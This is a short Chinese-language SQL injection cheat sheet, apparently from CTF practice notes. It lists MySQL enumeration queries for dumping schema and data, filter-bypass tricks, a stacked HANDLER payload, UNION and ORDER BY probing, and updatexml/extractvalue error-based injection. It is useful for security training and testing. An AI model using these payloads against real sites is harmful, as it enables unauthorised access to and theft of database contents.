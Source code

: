 # SQli

常规方法利用information_schema

```sql
#爆库
select database()
#爆表
select group_concat(table_name) from information_schema.tables where table_schema=<database name>
#爆字段
select group_concat(column_name) from information_schema.columns where table_name=<table name>
#爆数据
select group_concat(<column name>) from <table name>
```

mysql > 5.6 版本 利用sys库

```sql
# 爆表
# schema_auto_increment_columns

select group_concat(table_name)from sys.schema_auto_increment_columns where table_schema=database()--+

# schema_table_statistics_with_buffer

select group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database()--+
```

mysql > 5.5 利用``innodb_table_stats``

```sql
# 爆表
select group_concat(table_name) from mysql.innodb_table_stats
```

## 技巧

- 加``()、/**/`` bypass``空格``

- ``like`` bypass ``=``

- ``select .`` bypass 一般是堆叠注入

  利用set

  利用handler 

  ```
  1';handler `FlagHere` open;handler `FlagHere` read first;#
  ```

- 看回显点

  ```
  select 1,2,3,....
  ```

- 注释符

  - /**/
  - \# -> %23

  - -- 

- order by看字段数 先看看有几个回显点也可以用group by

  ```
  1' order by 3#
  ->
  
  1' order by 4#
  ->
  Error
  ```

- Union 联合注入

- limit

  ```
  limit i,n
  # tableName：表名
  # i：为查询结果的索引值(默认从0开始)，当i=0时可省略i
  # n：为查询结果返回的数量
  # i与n之间使用英文逗号","隔开
  ```

- 报错注入

  - ``updatexml(1,concat(1,(<SQLi>)),1)``
  - ``extractvalue(1,concat(1,<SQli>))``

  
